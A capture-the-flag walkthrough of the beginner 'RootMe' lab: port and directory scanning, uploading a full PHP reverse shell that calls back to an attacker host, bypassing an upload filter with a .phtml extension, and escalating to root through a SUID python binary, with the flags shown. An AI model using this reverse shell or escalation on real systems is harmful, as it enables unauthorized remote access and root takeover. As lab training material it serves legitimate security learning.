


RootMe
A ctf for beginners, can you root me?
Reconnaissance
First, let’s get information about the target.
#### Answer the questions below
Q: Scan the machine, how many ports are open?
nmap -p- -sC -sV <target_machine_ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2025-05-28 16:17 BST
Nmap scan report for <target_machine_ip>
Host is up (0.00020s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| 256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_ 256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:83:0F:68:46:09 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.18 secondsA:
2Q: What version of Apache is running? Has been answered already with the previous. A
2.4.29Q: What service is running on port 22? Has been answered already with the previous.
sshQ: Find directories on the web server using the GoBuster tool.
A:
No answer neededgobuster dir -u <target_machine_ip> -w /usr/share/wordlists/dirb/common.txt -t 32 -o gobuster_results.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: <target_machine_ip>
[+] Method: GET
[+] Threads: 32
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd (Status: 403) [Size: 278]
/css (Status: 301) [Size: 312] [--> <target_machine_ip>/css/]
/.htaccess (Status: 403) [Size: 278]
/.hta (Status: 403) [Size: 278]
/index.php (Status: 200) [Size: 616]
/js (Status: 301) [Size: 311] [--> <target_machine_ip>/js/]
/panel (Status: 301) [Size: 314] [--> <target_machine_ip>/panel/]
/server-status (Status: 403) [Size: 278]
/uploads (Status: 301) [Size: 316] [--> <target_machine_ip>/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================Q: What is the hidden directory? A:
/panel/Getting a shell
Find a form to upload and get a reverse shell, and find the flag.
#### Answer the questions below
Q: user.txt
- Step 1: Go to the server and get unimpressed

- Step 2: Go to
/panel/

- Step 3.1.: Go to Reverse Shell Generator to prep webshell
- Step 3.2.: prep shelly.php
//<?php
// // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// set_time_limit (0);
// $VERSION = "1.0";
// $ip = '<attack_box_ip>';
// $port = <port>;
// $chunk_size = 1400;
// $write_a = null;
// $error_a = null;
// $shell = 'uname -a; w; id; sh -i';
// $daemon = 0;
// $debug = 0;
//
// if (function_exists('pcntl_fork')) {
// $pid = pcntl_fork();
//
// if ($pid == -1) {
// printit("ERROR: Can't fork");
// exit(1);
// }
//
// if ($pid) {
// exit(0); // Parent exits
// }
// if (posix_setsid() == -1) {
// printit("Error: Can't setsid()");
// exit(1);
// }
//
// $daemon = 1;
// } else {
// printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
// }
//
// chdir("/");
//
// umask(0);
//
// // Open reverse connection
// $sock = fsockopen($ip, $port, $errno, $errstr, 30);
// if (!$sock) {
// printit("$errstr ($errno)");
// exit(1);
// }
//
// $descriptorspec = array(
// 0 => array("pipe", "r"), // stdin is a pipe that the child will read from
// 1 => array("pipe", "w"), // stdout is a pipe that the child will write to
// 2 => array("pipe", "w") // stderr is a pipe that the child will write to
// );
//
// $process = proc_open($shell, $descriptorspec, $pipes);
//
// if (!is_resource($process)) {
// printit("ERROR: Can't spawn shell");
// exit(1);
// }
//
// stream_set_blocking($pipes[0], 0);
// stream_set_blocking($pipes[1], 0);
// stream_set_blocking($pipes[2], 0);
// stream_set_blocking($sock, 0);
//
// printit("Successfully opened reverse shell to $ip:$port");
//
// while (1) {
// if (feof($sock)) {
// printit("ERROR: Shell connection terminated");
// break;
// }
//
// if (feof($pipes[1])) {
// printit("ERROR: Shell process terminated");
// break;
// }
//
// $read_a = array($sock, $pipes[1], $pipes[2]);
// $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
//
// if (in_array($sock, $read_a)) {
// if ($debug) printit("SOCK READ");
// $input = fread($sock, $chunk_size);
// if ($debug) printit("SOCK: $input");
// fwrite($pipes[0], $input);
// }
//
// if (in_array($pipes[1], $read_a)) {
// if ($debug) printit("STDOUT READ");
// $input = fread($pipes[1], $chunk_size);
// if ($debug) printit("STDOUT: $input");
// fwrite($sock, $input);
// }
//
// if (in_array($pipes[2], $read_a)) {
// if ($debug) printit("STDERR READ");
// $input = fread($pipes[2], $chunk_size);
// if ($debug) printit("STDERR: $input");
// fwrite($sock, $input);
// }
// }
//
// fclose($sock);
// fclose($pipes[0]);
// fclose($pipes[1]);
// fclose($pipes[2]);
// proc_close($process);
//
// function printit ($string) {
// if (!$daemon) {
// print "$string\n";
// }
// }
//
//?>Step 3.3.: Server does not fancy shelly.php

Step 3.4.: Server is OK with shelly.phtml

Step 3.5.: shelly.phtml now waits at
Step 3.6.: set up the listener
nc -nlvp <port>Step 3.7.1.: after shelly.phtml opens the door, get in politely … Step 3.7.2.: … ask the existential question first, and then kindly ask the other questions …
root@ip<attack_box>:~# nc -nlvp <port>
Listening on 0.0.0.0 <port>
Connection received on <target_ip> 32788
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
16:13:07 up 1:01, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
$ find -name user.txt 2>/dev/null
./var/www/user.txt
$ cat /var/www/user.txt… and get the answer
A:
THM{y0u_g0t_a_sh3ll}Privilege escalation
Now that we have a shell, let’s escalate our privileges to root. #### Answer the questions below —
Q: Search for files with SUID permission, which file is weird?
Get an old friend’s help for upward social mobility …
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$
bash-4.4$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping… who turns out to be privileged
A:
/usr/bin/pythonQ: Find a form to escalate your privileges.
No answer neededbash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# pwd
pwd
/
# ls -lh
ls -lh
total 2.1G
drwxr-xr-x 2 root root 4.0K Aug 4 2020 bin
drwxr-xr-x 3 root root 4.0K Aug 4 2020 boot
drwxr-xr-x 2 root root 4.0K Aug 4 2020 cdrom
drwxr-xr-x 15 root root 3.7K May 28 15:11 dev
drwxr-xr-x 96 root root 4.0K Aug 4 2020 etc
drwxr-xr-x 4 root root 4.0K Aug 4 2020 home
lrwxrwxrwx 1 root root 34 Aug 4 2020 initrd.img -> boot/initrd.img-4.15.0-112-generic
lrwxrwxrwx 1 root root 34 Aug 4 2020 initrd.img.old -> boot/initrd.img-4.15.0-112-generic
drwxr-xr-x 22 root root 4.0K Aug 4 2020 lib
drwxr-xr-x 2 root root 4.0K Aug 4 2020 lib64
drwx------ 2 root root 16K Aug 4 2020 lost+found
drwxr-xr-x 2 root root 4.0K Feb 3 2020 media
drwxr-xr-x 2 root root 4.0K Feb 3 2020 mnt
drwxr-xr-x 2 root root 4.0K Feb 3 2020 opt
dr-xr-xr-x 112 root root 0 May 28 15:11 proc
drwx------ 6 root root 4.0K Aug 4 2020 root
drwxr-xr-x 26 root root 860 May 28 15:13 run
drwxr-xr-x 2 root root 12K Aug 4 2020 sbin
drwxr-xr-x 4 root root 4.0K Aug 4 2020 snap
drwxr-xr-x 2 root root 4.0K Feb 3 2020 srv
-rw------- 1 root root 2.0G Aug 4 2020 swap.img
dr-xr-xr-x 13 root root 0 May 28 15:11 sys
drwxrwxrwt 2 root root 4.0K May 28 16:03 tmp
drwxr-xr-x 10 root root 4.0K Feb 3 2020 usr
drwxr-xr-x 14 root root 4.0K Aug 4 2020 var
lrwxrwxrwx 1 root root 31 Aug 4 2020 vmlinuz -> boot/vmlinuz-4.15.0-112-generic
lrwxrwxrwx 1 root root 31 Aug 4 2020 vmlinuz.old -> boot/vmlinuz-4.15.0-112-generic
# cat /root/root.txt
cat /root/root.txtQ: root.txt
A:
THM{pr1v1l3g3_3sc4l4t10n}